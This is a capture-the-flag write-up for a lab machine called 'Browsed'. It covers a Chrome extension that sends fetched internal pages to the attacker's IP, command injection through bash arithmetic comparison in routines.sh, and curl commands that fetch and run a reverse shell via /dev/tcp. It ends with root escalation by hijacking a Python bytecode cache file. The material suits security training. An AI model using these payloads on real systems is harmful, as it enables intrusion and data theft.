---
tags:
  - Linux
  - Medium
  - WebApp
  - Python
  - Pycache
  - Bash
  - Command_Expansion
  - JavaScript
  - Gitea
  - Malicious_Modules
  - RCE
  - sudo
---


## Port Scan

As always, we first start off with an nmap scan. Looking at the results, we have two ports open: HTTP and SSH.

```
# Nmap 7.95 scan initiated Sat Jan 10 22:09:11 2026 as: /usr/lib/nmap/nmap --privileged -sC -sV -vv -oA nmap/browsed 10.129.33.142
Nmap scan report for 10.129.33.142
Host is up, received reset ttl 63 (0.053s latency).
Scanned at 2026-01-10 22:09:31 GMT for 11s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 02:c8:a4:ba:c5:ed:0b:13:ef:b7:e7:d7:ef:a2:9d:92 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJW1WZr+zu8O38glENl+84Zw9+Dw/pm4IxFauRRJ+eAFkuODRBg+5J92dT0p/BZLMz1wZMjd6BLjAkB1LHDAjqQ=
|   256 53:ea:be:c7:07:05:9d:aa:9f:44:f8:bf:32:ed:5c:9a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICE6UoMGXZk41AvU+J2++RYnxElAD3KNSjatTdCeEa1R
80/tcp open  http    syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Browsed
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 10 22:09:42 2026 -- 1 IP address (1 host up) scanned in 32.45 seconds
```

## User

### Inspecting the Web App

Opening up the web app, we can see that this is some sort of page for submitting Chrome extensions. They provide some samples and allow us to send our own Chrome extension for them to test out.




Just to experiment with the web page, let's download one of the sample extensions and send it. In the lower box, we see a *lot* of verbose output. Within it though, we can see a reference to `http://browsedinternals.htb`.



### Creating a Custom Extension for Web Enum

Let's try to see if we can peek as to what this URL points to. Because a Chrome extension is basically just JavaScript code and these devs are so willing as to test it out, we're going to try and have their browser fetch that page content and send it back to us.

With some help from ChatGPT and my buddy baz, the following three files were created for our enumeration setup based on the sample extensions the site gives.

<u>manifest.json</u>

```
{
  "manifest_version": 3,
  "name": "Browsed Helper",
  "version": "1.0",
  "permissions": [],
  "host_permissions": [
    "http://127.0.0.1/*",
    "http://browsedinternals.htb/*",
    "http://<attacker IP>:<port>/*"
  ],
  "background": {
    "service_worker": "test.js"
  }
}
```

<u>test.js</u>

```
chrome.runtime.onInstalled.addListener(async () => {
  try {
    const res = await fetch(
      "http://browsedinternals.htb", {mode: 'no-cors'}
    );
    const raw = await res.text();

    let payload = {
      fetched: true,
      url: res.url,
      status: res.status,
      length: raw.length,
      isHTML: false
    };

    // Detect HTML
    if (raw.trim().startsWith("<!DOCTYPE") || raw.includes("<html")) {
      payload.isHTML = true;

      // Extract <title>
      const titleMatch = raw.match(/<title>(.*?)<\/title>/i);
      payload.title = titleMatch ? titleMatch[1] : null;

      // Extract links
      payload.links = [...raw.matchAll(/href="([^"]+)"/gi)]
        .map(m => m[1])
        .slice(0, 50);

      // Strip HTML tags → readable text
      payload.text = raw
        .replace(/<script[\s\S]*?<\/script>/gi, "")
        .replace(/<style[\s\S]*?<\/style>/gi, "")
        .replace(/<\/?[^>]+>/g, " ")
        .replace(/\s+/g, " ")
        .trim()
        .slice(0, 4000);

    } else {
      // Plain text (scripts, configs)
      payload.preview = raw.slice(0, 4000);
    }

    await fetch("http://10.10.14.32:8000/", {
      method: "POST",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify(payload)
    });

  } catch (err) {
    await fetch("http://10.10.14.32:8000/", {
      method: "POST",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({
        fetched: false,
        error: err.toString()
      })
    });
  }
});
```

<u>receiver.py</u>

```
from flask import Flask, request
import json

app = Flask(__name__)


@app.route(
    "/",
    defaults={"path": ""},
    methods=["GET", "POST", "PUT", "PATCH", "DELETE", "OPTIONS", "HEAD"],
)
@app.route(
    "/<path:path>", methods=["GET", "POST", "PUT", "PATCH", "DELETE", "OPTIONS", "HEAD"]
)
def catch_all(path):
    print("\n" + "=" * 60)
    print("Incoming Request")
    print("=" * 60)

    print(f"Method: {request.method}")
    print(f"URL: {request.url}")
    print(f"Path: /{path}")
    print(f"Remote Addr: {request.remote_addr}")

    print("\n--- Headers ---")
    for k, v in request.headers.items():
        print(f"{k}: {v}")

    print("\n--- Query Params ---")
    print(request.args.to_dict(flat=False))

    print("\n--- Form Data ---")
    print(request.form.to_dict(flat=False))

    print("\n--- JSON ---")
    try:
        print(json.dumps(request.get_json(silent=True), indent=2))
    except Exception as e:
        print(f"Error parsing JSON: {e}")

    print("\n--- Raw Body ---")
    print(request.get_data(as_text=True))

    print("\n--- Files ---")
    for name, file in request.files.items():
        print(f"{name}: filename={file.filename}, content_type={file.content_type}")

    print("=" * 60 + "\n")

    return "OK\n", 200


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8000, debug=True)
```

Looking at all of these files, the basic idea is this:

- `manifest.json` allows the extension access to anything on `localhost` or `browsedinternals.htb`. We also put our own IP address and port so we can get hits back
- `test.js` fetches a page of our choosing and saves all the data into a payload. That payload is then sent to our IP address
- `receiver.py` is listening for `test.js` to send it the POST request with all of the data and outputs to the console for us to see

We store `manifest.json` and `test.json` in a folder called `custom` and then use `zip` to zip it up. Note that we have to do this in a particular way as to not also include the folder itself in the zip. The following command, within the `custom` folder we've created, makes the proper zip:

`zip -r ../custom/custom.zip .`



Let's start up our Flask app and shoot off our extension. A moment after we send it, we get a hit back:



### Enumerating Gitea

Based on the results of our hit, it looks like the URL is hosting a `Gitea` app. Let's see if we can check out what repos are on here by fetching for `http://browsedinternals.htb/explore/repos`:



Boom, now we can see some repos in our results. `/larry/MarkdownPreview` looks interesting, let's swap out the fetch URL for that and see what we get.



Lots of results this time. Let's see what this `app.py` thing is. You know the drill, let's fetch for `/larry/MarkdownPreview/src/branch/main/app.py`.



Well, it's here, but not exactly the easiest thing to read. I asked ChatGPT to clean it up and it spit out the following code:

<u>app.py</u>

```
from flask import Flask, request, send_from_directory
from werkzeug.utils import secure_filename
import markdown
import os
import subprocess
import uuid

app = Flask(__name__)

# Directory where rendered HTML files are stored
FILES_DIR = "files"

# Ensure the files directory exists
os.makedirs(FILES_DIR, exist_ok=True)


@app.route("/")
def index():
    """Main page with a markdown input form."""
    return """
    <h1>Markdown Previewer</h1>
    <form action="/submit" method="POST">
        <textarea name="content" rows="10" cols="80"></textarea><br>
        <input type="submit" value="Render & Save">
    </form>
    <p><a href="/files">View saved HTML files</a></p>
    """


@app.route("/submit", methods=["POST"])
def submit():
    """Convert submitted markdown to HTML and save it to a file."""
    content = request.form.get("content", "")

    if not content.strip():
        return 'Empty content. <a href="/">Go back</a>'

    # Convert markdown to HTML
    html = markdown.markdown(content)

    # Save HTML to a uniquely named file
    filename = f"{uuid.uuid4().hex}.html"
    filepath = os.path.join(FILES_DIR, filename)

    with open(filepath, "w") as f:
        f.write(html)

    return f"""
    <p>File saved as <code>{filename}</code>.</p>
    <p><a href="/view/{filename}">View Rendered HTML</a></p>
    <p><a href="/">Go back</a></p>
    """


@app.route("/files")
def list_files():
    """List all saved HTML files."""
    files = [f for f in os.listdir(FILES_DIR) if f.endswith(".html")]

    links = "\n".join(f'<li><a href="/view/{f}">{f}</a></li>' for f in files)

    return f"""
    <h1>Saved HTML Files</h1>
    <ul>
        {links}
    </ul>
    <p><a href="/">Back to editor</a></p>
    """


@app.route("/routines/<rid>")
def routines(rid):
    """
    Execute an external routine script with a given ID.
    Note: Script is executed directly (no shell).
    """
    subprocess.run(["./routines.sh", rid])
    return "Routine executed!"


@app.route("/view/<filename>")
def view_file(filename):
    """Serve a saved HTML file."""
    filename = secure_filename(filename)

    if not filename.endswith(".html"):
        return "Invalid filename", 400

    return send_from_directory(FILES_DIR, filename)


# Run only on localhost
if __name__ == "__main__":
    app.run(host="127.0.0.1", port=5000)
```

Looks like our target has a Flask app of their own running on `127.0.0.1:5000`.

### Exploiting the Flask App with RCE

On that Flask app, there's a very interesting `/routines` route. It calls `subprocess` to execute a shell script `routines.sh` with an `rid` argument. Maybe there's some kind of flaw with this script where we can run commands with that argument? After some searching, it looks like `routines.sh` was at `/larry/Markdown/Preview/src/branch/main/routines.sh`.



We get another successful hit of garbled mess. ChatGPT to the rescue gives us the following:

<u>routines.sh</u>

```
#!/bin/bash

ROUTINE_LOG="/home/larry/markdownPreview/log/routine.log"
BACKUP_DIR="/home/larry/markdownPreview/backups"
DATA_DIR="/home/larry/markdownPreview/data"
TMP_DIR="/home/larry/markdownPreview/tmp"

log_action() {
    echo "[ $(date '+%Y-%m-%d %H:%M:%S') ] $1" >> "$ROUTINE_LOG"
}

if [[ "$1" -eq 0 ]]; then
    # Routine 0: Clean temp files
    find "$TMP_DIR" -type f -name "*.tmp" -delete
    log_action "Routine 0: Temporary files cleaned."
    echo "Temporary files cleaned."

elif [[ "$1" -eq 1 ]]; then
    # Routine 1: Backup data
    tar -czf "$BACKUP_DIR/data_backup_$(date '+%Y%m%d_%H%M%S').tar.gz" "$DATA_DIR"
    log_action "Routine 1: Data backed up to $BACKUP_DIR."
    echo "Backup completed."

elif [[ "$1" -eq 2 ]]; then
    # Routine 2: Rotate logs
    find "$(dirname "$ROUTINE_LOG")" -type f -name "*.log" -exec gzip {} \;
    log_action "Routine 2: Log files compressed."
    echo "Logs rotated."

elif [[ "$1" -eq 3 ]]; then
    # Routine 3: System info dump
    SYSINFO_FILE="$BACKUP_DIR/sysinfo_$(date '+%Y%m%d').txt"
    uname -a > "$SYSINFO_FILE"
    df -h >> "$SYSINFO_FILE"
    log_action "Routine 3: System info dumped."
    echo "System info saved."

else
    log_action "Unknown routine ID: $1"
    echo "Routine ID not implemented."
fi
```

Looks like the argument to the script designated by `$1` is used in some `if` value comparisons. This is famously vulnerable to [command expansion](https://stackoverflow.com/questions/72971590/bash-test-injection-vulnerability-with-v). So, if we hit `http://127.0.0.1:5000/routines/x[$(command)]`, we should get command execution back.

With some troubleshooting, it seems certain special characters were not allowed or prevented execution. So, I created a shell script containing a reverse shell and hosted it on a basic Python web server listening on port 8001.

```
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.32/9001 0>&1
```

The notable thing is that I named it `index.html`, so any requests that don't specify a path automatically choose that file. Then, I fetched the following two URLS: the first to `curl` and save the script, then the next to execute it.

`http://127.0.0.1:5000/routines/x[$(curl 10.10.14.32:8001 -o shell.sh)`]
`http://127.0.0.1:5000/routines/x[$(bash shell.sh)]`

After shooting off those requests, we get a shell on our listener and obtain the user flag.



## Root

One of the first things I usually check is `sudo -l`. Lo and behold, we can run a custom `/opt/extensiontool/extension_tool.py` Python script as root.



It appears to be a tool that can bump version values for different Chrome extensions and can also create temporary zips based on the already created extensions in `extensions`.



Looking at the code itself, it almost seems like we can do some file overwrites by path traversal using the parameters, but ultimately the script properly filters those attempts out. However, running the command does seem to generate a file in `__pycache__` which, interestingly, is a directory we have write access over.



After a bit of research, it appears that we can overwrite this pycache file with one of our own. In doing so, when we run the command again, we can execute arbitrary Python code. It does take some finessing though. Each `.pyc` file comes with a generated timestamp and set of magic bytes. If those are not set correctly when the Python code is ran again, the cache file will be regenerated instead of used.

Fortunately, [this article](https://www.udayxd.xyz/notes/linux-privesc/python-bytecode-cache-hijacking) goes over this type of attack and even contains a PoC to perform it. First, I download the `hijack.py` script and push it onto the box.



I then generate the `.pyc` file by executing the `extension_tool.py` script. After that, I tried to run the `hijack.py` script which is supposed to modify the `pycache` file in place, but I get a `Permission denied` error.



No bother. I'll modify the script to just output a new `.pyc` file and I'll manually replace/rename the `pycache` file.  I also make sure to include my `ip` and `port` for the payload's reverse shell as I forgot to do that earlier.



Let's try this again. To get the reverse shell, I do the following steps:

- Run `extension_tool` with `sudo` to generate the normal `pycache` file
- Run `hijack.py` to create the malicious `pycache` file
- Delete and replace the normal `pycache` file with the malicious one
- Set up a listener and execute `extension_tool` with `sudo` again to get a root shell

